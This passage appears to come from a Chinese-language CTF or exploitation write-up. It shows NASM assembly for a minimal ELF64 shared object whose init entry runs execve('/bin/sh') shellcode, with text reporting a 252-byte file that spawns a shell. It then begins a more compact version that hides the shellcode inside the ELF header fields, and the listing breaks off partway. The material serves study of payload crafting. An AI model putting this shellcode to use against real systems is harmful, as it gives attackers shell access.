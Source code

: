 ```
            push rsp
            pop rdi

            push rsi
            push rdi
            push rsp
            pop rsi 

            push 0x3b
            pop rax
            syscall
            ret

mainsize    equ     $ - main

sectionHeaders:
    dynsym:

dynsymsize    equ     $ - dynsym

dynamic:
    dt_strtab:
            dq          5
            dq          dynsym
    dt_symtab:
            dq          6
            dq          dynsym
    dt_init:
            dq          12
            dq          main

dynamicsize    equ     $ - dynamic 

filesize    equ     $ - $$
```

[![](./img/203685/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/dm/1024_104_/t0149ce874a35427360.png)

这样，我们将程序的大小进一步缩减到了252字节，且成功回弹了shell

接下来我们发现，事实上有一些位置是可以重叠的，我们来分析一个极为精炼的exp

```
; My_test.s
BITS 64

    org     0

ehdr:                                               ;   Elf64_Ehdr
            db      0x7F, "ELF", 2, 1, 1, 0         ;   e_ident
    times 8 db      0
            dw      3                               ;   e_type
            dw      62                              ;   e_machine
            dd      1                               ;   e_version
            db      '/bin/sh', 0                    ;   e_entry
            dq      phdr - $$                       ;   e_phoff
    shellcode_begin:
            call    part_a                          ;   e_shoff
    part_a:
            pop     rdi
            sub     rdi, 0x15                        
            xchg    esi, eax
            push    rax
            jmp     part_b                          ;   e_phsize
```